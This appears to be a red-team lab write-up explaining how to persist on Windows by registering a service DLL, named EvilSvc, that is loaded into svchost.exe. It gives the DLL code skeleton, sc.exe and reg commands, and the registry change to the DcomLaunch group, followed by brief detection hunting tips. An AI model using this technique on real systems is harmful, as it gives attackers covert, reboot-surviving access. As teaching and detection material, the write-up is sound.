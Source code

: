 ```yaml
---
layout: post
title: "persisting in svchost.exe with a service dll servicemain"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /persisting-in-svchost.exe-with-a-service-dll-servicemain/
---
```


---
layout: post
title: "persisting in svchost.exe with a service dll servicemain"
date: 2024-06-18
categories: persistence
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /persisting-in-svchost.exe-with-a-service-dll-servicemain/
---

# Persisting in svchost.exe with a Service DLL

This is a quick lab that looks into a persistence mechanism that relies on installing a new Windows service, that will be hosted by an svchost.exe process.

## Overview

At a high level, this is how the technique works:

1. Create a service `EvilSvc.dll` DLL (the DLL that will be loaded into an `svchost.exe`) with the code we want executed on each system reboot
2. Create a new service `EvilSvc` with `binPath= svchost.exe`
3. Add the `ServiceDll` value to `EvilSvc` service and point it to the service DLL compiled in step 1
4. Modify `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost` to specify under which group your service should be loaded into
5. Start `EvilSvc` service
6. The `EvilSvc` is started and its service DLL `EvilSvc.dll` is loaded into an `svchost.exe`

## Walkthrough

### 1. Compile Service DLL

First of, let's compile our service DLL as EvilSvc.dll. This DLL is going to be loaded into an `svchost.exe` as part of our service `EvilSvc` that we will register in a second:

```cpp
#include "pch.h"
#define SVCNAME TEXT("EvilSvc")

SERVICE_STATUS serviceStatus;
SERVICE_STATUS_HANDLE serviceStatusHandle;
HANDLE stopEvent = NULL;

VOID UpdateServiceStatus(DWORD currentState)
{
    serviceStatus.dwCurrentState = currentState;
    SetServiceStatus(serviceStatusHandle, &serviceStatus);
}

DWORD ServiceHandler(DWORD controlCode, DWORD eventType, LPVOID eventData, LPVOID context)
{
    switch (controlCode)
    {
        case SERVICE_CONTROL_STOP:
            serviceStatus.dwCurrentState = SERVICE_STOPPED;
            SetEvent(stopEvent);
            break;
        case SERVICE_CONTROL_SHUTDOWN:
            serviceStatus.dwCurrentState = SERVICE_STOPPED;
            SetEvent(stopEvent);
            break;
        case SERVICE_CONTROL_PAUSE:
            serviceStatus.dwCurrentState = SERVICE_PAUSED;
            break;
        case SERVICE_CONTROL_CONTINUE:
            serviceStatus.dwCurrentState = SERVICE_RUNNING;
            break;
        case SERVICE_CONTROL_INTERROGATE:
            break;
        default:
            break;
    }

    UpdateServiceStatus(SERVICE_RUNNING);

    return NO_ERROR;
}

VOID ExecuteServiceCode()
{
    stopEvent = CreateEvent(NULL, TRUE, FALSE, NULL);
    UpdateServiceStatus(SERVICE_RUNNING);

    // #####################################
    // your persistence code here
    // #####################################

    while (1)
    {
        WaitForSingleObject(stopEvent, INFINITE);
        UpdateServiceStatus(SERVICE_STOPPED);
        return;
    }
}

extern "C" __declspec(dllexport) VOID WINAPI ServiceMain(DWORD argC, LPWSTR * argV)
{
    serviceStatusHandle = RegisterServiceCtrlHandler(SVCNAME, (LPHANDLER_FUNCTION)ServiceHandler);

    serviceStatus.dwServiceType = SERVICE_WIN32_SHARE_PROCESS;
    serviceStatus.dwServiceSpecificExitCode = 0;

    UpdateServiceStatus(SERVICE_START_PENDING);
    ExecuteServiceCode();
}
```

### 2. Create EvilSvc Service

Let's now create a new service called `EvilSvc` and specify the `binPath` to be `svchost.exe -k DcomLaunch`, which will tell Service Control Manager that we want our `EvilSvc` to be hosted by `svchost.exe` in a service group called `DcomLaunch`:

```
sc.exe create EvilSvc binPath= "c:\windows\System32\svchost.exe -k DcomLaunch" type= share start= auto
```

### 3. Modify EvilSvc - Specify ServiceDLL Path

Next, inside `HKLM\SYSTEM\CurrentControlSet\services\EvilSvc\`, create a new value called `ServiceDll` and point it to the EvilSvc.dll service DLL compiled in step 1:

```
reg add HKLM\SYSTEM\CurrentControlSet\services\EvilSvc\Parameters /v ServiceDll /t REG_EXPAND_SZ /d C:\Windows\system32\EvilSvc.dll /f
```

{% hint style="warning" %}
`EvilSvc.dll` must exist in `C:\Windows\system32\EvilSvc.dll`
{% endhint %}

At this point, our `EvilSvc` should be created with all the right parameters as seen in the registry:

![](<../../.gitbook/assets/image (628).png>)

### 4. Group EvilSvc with DcomLaunch

As a final step, we need to tell the Service Control Manager under which service group our `EvilSvc`should load.&#x20;

We want it to get loaded in the `DcomLaunch` group, so we need to add our service name `EvilSvc` in the list of services in the `DcomLaunch` value in `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost`:

![](<../../.gitbook/assets/image (626).png>)

### 5. Start EvilSvc Service

We can now try loading our `EvilSvc` service:

```
sc.exe start EvilSvc
```

`EvilSvc` is now loaded into svchost.exe as part of a `DcomLauncher` services group:

![](<../../.gitbook/assets/image (630).png>)

## Detection

Below are some initial thoughts on how one could start hunting for this technique:

* Recently created services with `svchost.exe` as a `binpath`
* Listing out ServiceDLL value for all system services and looking for DLLs that are loaded from suspicious locations (i.e non c:\windows\system32):\
  `Get-ItemProperty hklm:\SYSTEM\ControlSet001\Services\*\Parameters | ? { $_.servicedll } | select psparentpath, servicedll`

![EvilSvc.dll location sticking out](<../../.gitbook/assets/image (631).png>)

## References

{% embed url="https://docs.microsoft.com/en-us/windows/win32/services/writing-a-servicemain-function" %}
@spotheplanet

